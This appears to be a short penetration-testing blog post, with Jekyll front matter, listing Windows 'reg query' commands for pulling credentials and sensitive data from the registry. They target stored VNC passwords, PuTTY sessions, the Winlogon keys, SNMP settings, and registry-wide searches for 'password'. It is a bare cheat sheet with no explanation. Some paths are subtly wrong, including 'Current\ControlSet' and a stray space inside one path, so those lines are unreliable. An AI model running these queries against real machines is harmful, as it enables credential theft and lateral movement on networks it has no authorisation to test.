 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Extracting Juicy Information from Registry"
date:   2019-06-23 13:48:10 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
tags:
  - Registry Key Hacking
  - Windows Security
  - Active Directory Hacking
---
```

- reg query "HKCU\Software\ORL\WinVNC3\Password"
- reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
- reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
- reg query HKLM /f password /t REG_SZ /s 
- reg query HKCU /f password /t REG_SZ /s
- reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
- reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
- reg query "HKEY_LOCAL_MACHINE\ SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy\ History" /v DCName 
